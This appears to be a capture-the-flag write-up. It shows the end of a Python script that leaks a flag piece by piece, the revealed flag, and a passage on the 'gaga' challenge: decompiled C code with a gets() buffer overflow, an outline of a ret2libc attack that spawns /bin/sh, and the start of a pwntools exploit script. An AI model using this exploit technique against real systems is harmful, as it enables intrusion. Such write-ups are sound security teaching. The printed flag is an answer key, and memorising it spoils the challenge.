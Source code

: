 ```python
    stringhe = stringa.split(',')
    temp = ''
    for s in stringhe:
        if len(s)%2 != 0:
            s = '0' + s
        temp += s
    temp = temp.strip()
    temp = temp[:-1]
    flag = flag + str((bytes.fromhex(temp)[::-1])[-8:])
    r.close()
flag = flag.replace('\'b\'', '')
print(flag)
```

If the input string is too long it overwrite the flag in the stack, so we have to take it piece by piece. The code above take 8 chars of the flag at every iteration and put them in the variable flag. At the end we only clean the output.

🏁 _actf{st4ck_it_queue_it_a619ad974c864b22}_{: .spoiler}

## gaga

> _Multipart challenge! Note all use essentially the same Dockerfile. The flags are split among all three challenges. If you are already a pwn expert, the last challenge has the entire flag._<br>
> _nc challs.actf.co xxxxx, xxxx, xxxx_<br>
> _Attachments: gaga0, gaga1, gaga2, Dockerfile_

```c:source.c
void main(void)

{
  char local_48 [60];
  __gid_t local_c;

  setbuf(stdout,(char *)0x0);
  local_c = getegid();
  setresgid(local_c,local_c,local_c);
  puts("Awesome! Now there\'s no system(), so what will you do?!");
  printf("Your input: ");
  gets(local_48);
  return;
}
```

Nothing much to say about this challenge, it's a classic ret2libc attack. We leak the libc through puts, we find the correct version of libc on [libc database](https://libc.rip/) and then we call `system("/bin/sh")`.

```python:exploit.py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./gaga2_patched")
libc = ELF("./libc.so.6")
context.binary = exe
context.terminal = ['terminator', '-x']

# context.log_level = 'debug'


def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript='''b *main+116''')
```